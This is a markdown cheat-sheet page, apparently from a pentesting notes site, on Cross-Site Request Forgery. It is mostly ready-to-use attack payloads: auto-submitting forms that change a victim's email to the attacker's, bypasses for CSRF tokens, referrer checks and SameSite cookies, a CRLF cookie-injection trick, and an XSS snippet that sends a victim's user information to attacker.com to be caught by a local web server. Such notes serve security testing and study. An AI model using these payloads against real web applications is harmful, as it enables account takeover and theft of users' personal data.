 ```yaml
---
title: CSRF (Cross-Site Request Forgery)
description: CSRF is an attacking methodology that forces an end user to execute unexpected actions on a web application. CSRF is an attack against a user's web browser.
tags:
    - Web
refs:
date: 2023-06-09
draft: false
---
```


## Account Takeover

If the victim user access to the page where the payload put in, the victim account information will be changed to the attacker's information e.g. Email address or Username.

<div data-pagefind-ignore>

```html
<form method="POST" action="https://example.com/change-email">
    <input type="hidden" name="email" value="attacker@attack.com">
</form>
<script>
    document.forms[0].submit();
</script>
```

</div>

### CSRF Token Bypass

Below is to bypass CSRF token by using another CSRF token that we get.

<div data-pagefind-ignore>

```html
<form method="POST" action="https://example.com/change-email">
    <input type="hidden" name="email" value="attacker@attack.com">
    <input type="hidden" name="csrf" value="PqORuKZMr9zIJxpZC2cA8BgHuQGVkW8h">
</form>
<script>
    document.forms[0].submit();
</script>
```

</div>

### Cookie Injection

<div data-pagefind-ignore>

```html
<form method="POST" action="https://example.com/change-email">
    <input type="hidden" name="email" value="attacker@attack.com">
</form>
<img src="https://example.com/?search=attack%0d%0aSet-Cookie:%20csrf=fake" onerror="document.forms[0].submit();">
```

</div>

### Referrer Validation

Referrer validation may be enabled depending on the website.  
If so, we can try to bypass the validation by manipulating the browser's session history stack.

<div data-pagefind-ignore>

```html
<meta name="referrer" content="no-referrer">

<form method="POST" action="https://example.com/change-email">
    <input type="hidden" name="email" value="attacker@attack.com">
</form>
<script>
    // For referrer validation....
    history.pushState("", "", "/?example.com");
    
    document.forms[0].submit();
</script>
```

</div>

<br />

## Reveal Another User Information

We can retrieve the information of the another user account which accesses to the web page where the payload inserted.  
Most of the time, this attack can be executed if the web page allows us to XSS.

### Force Requesting to Our Server

Start web server in local machine for looking at the access log information.

```bash
sudo python3 -m http.server 80
```

Now send POST request with the victim's information in the target website.  
For example, assume the target web page contains the current logged-in user information in the element of the id named **"userinfo"**.

<div data-pagefind-ignore>

```bash
<script>
var secret = document.getElementById('userinfo');
var request = new XMLHttpRequest();
request.open('GET', 'http://attacker.com/' + secret, false);
request.send();
</script>
```

</div>

After a while, we can retrieve access logs contain the information of victims in local machine.

<br />

## Bypass SameSite Restriction

Reference: [https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions)

If the SameSite restriction is set as below, we need to bypass it to perform CSRF.

```html
Set-Cookie: session=abcdef; SameSite=Strict
```

 If it’s not set, **`SameSite=Lax`** is set by default.

### Lax

The Lax is set in the SameSite by default if the website does not specify the SameSite value in the Cookie. It restricts the GET method only so we cannot use POST method in the payload. However, we can overwrite this method in the GET parameter by as below.

```html
https://example.com/change-email?email=evil@evil.com&_method=POST
```

So our CSRF payload as the following:

```html
<script>
document.location = "https://example.com/change-email?email=evil@evil.com&_method=POST"
</script>
```

Encode the URL value if necessary. (URL encoding)

### Strict

If the Strict is set as the SameSite value, we cannot send any cross-site requests. However, we may be able to perform CSRF by using redirects. For example, when we send a comment in a blog page, we see the message such as **"Thank you for your message"** in the result page then redirect to the post page.

<div data-pagefind-ignore>

```html
<script>
document.location = "https://example.com/post/comment/confirmation?postId=1/../change-email?email=evil@evil.com"
</script>
```

</div>

Encode the URL value if necessary. (URL encoding)
